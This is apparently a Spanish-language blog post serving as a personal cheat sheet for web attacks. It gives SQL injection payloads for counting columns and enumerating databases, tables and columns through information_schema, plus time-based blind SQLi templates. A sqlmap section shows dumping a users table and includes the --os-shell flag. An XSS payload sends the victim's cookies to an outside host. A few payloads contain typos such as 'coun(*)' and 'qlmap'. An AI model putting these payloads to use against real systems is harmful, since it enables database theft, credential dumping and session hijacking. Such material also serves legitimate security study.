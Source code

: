 ```yaml
---
layout: post
title: SQLi - CheetSheat
tags: [Linux,CheetSheat]
description: SQLi - CheetSheat
---
```


## Error Based

### Averiguar la cantidad de columnas

```
' ORDER BY 1-- -
' ORDER BY 2-- -
" ORDER BY 3-- -
" ORDER BY 4-- -
...
```

```
@@version
database()
load_file('<file>')
user()
current_user()
```

### Enumerar Base de Datos

```
SELECT schema_name FROM information_schema.schemata
SELECT count(*) FROM information_schema.schemata
SELECT schema_name FROM information_schema.schemata LIMIT 0,1
SELECT schema_name FROM information_schema.schemata LIMIT 1,1
SELECT schema_name FROM information_schema.schemata LIMIT 2,1
```

### Enumerar tablas

```
SELECT count(*) FROM information_schema.tables WHERE table_schema='<database>'
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 0,1
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 1,1
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 2,1
```

### Enumerar columnas

```
SELECT count(*) FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database>"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 0,1"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 1,1"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 2,1"
```

### Extraer registros

```
SELECT x,x,x,coun(*),x FROM <database>.<table>
SELECT x,x,x,concat(<column>,0x3a,<column>,0x3a,<column>),x FROM <database>.<table>
```

----

## Blind SQL

### Base de Datos

```
' or IF(SUBSTR(database(),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<position>,<chars>.encode("utf-8").hex())
```

### Tablas

```
' or IF(SUBSTR((SELECT %s FROM %s.%s LIMIT %d,1),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<column>,<database>,<table>,<fila>,<position>,<chars>.encode("utf-8").hex())
```

### Columnas

```
' or IF(SUBSTR((SELECT column_name FROM information_schema.columns WHERE table_name='%s' AND table_schema='%s' LIMIT %d,1),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<table>,<databse>,<fila>,<position>,<chars>.encode("utf-8").hex())
```

### Registros

```
' or IF(SUBSTR((SELECT %s FROM %s.%s LIMIT %d,1),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<column>,<databse>,<table>,<fila>,<position>,<chars>.encode("utf-8").hex())
```

----

#### Todos los usuarios de MySQL

```
SELECT user FROM mysql.user;
```

## SqlMap

| argumento      | descripción                                   |
|----------------|-----------------------------------------------|
| --url          | url                                           |
| -p             | parámetro vulnerable |
| --cookie       | cookie de sesión |
|  --level       | nivel                                         |
| --risk         | riesgo |
| --dbms         | motor de base de datos |
| --threads      | cantidad de hilos                             |
| --batch        | valores por defecto |
| --users        | extraer nombres de usuarios |
| --current-db   | DDBB que está utilizando |
| --current-user | usuario que está logueado |
| --dbs          | enumerar base de datos |
| -D             | seleccionar base de datos                     |
| --tables       | mostrar las tablas de la DDBB seleccionada    |
| -T             | seleccionar tabla |
| --columns      | mostrar las columnas de la tabla seleccionada |
| --dump         | obtener información de la tabla               |
| --os-shell     | obtenre shell                                 |


```
sqlmap -u "http://192.168.116.135/?nid=1" --batch
```

Obtener registros

```
qlmap -u "http://192.168.116.135/?nid=1" --batch -D d7db -T users -C name,mail,pass --dump
```


## XSS

```
<script>document.write('<img src="http://10.9.102.237:8000/arc.jpg?cookie='+document.cookie+'">')</script>
```
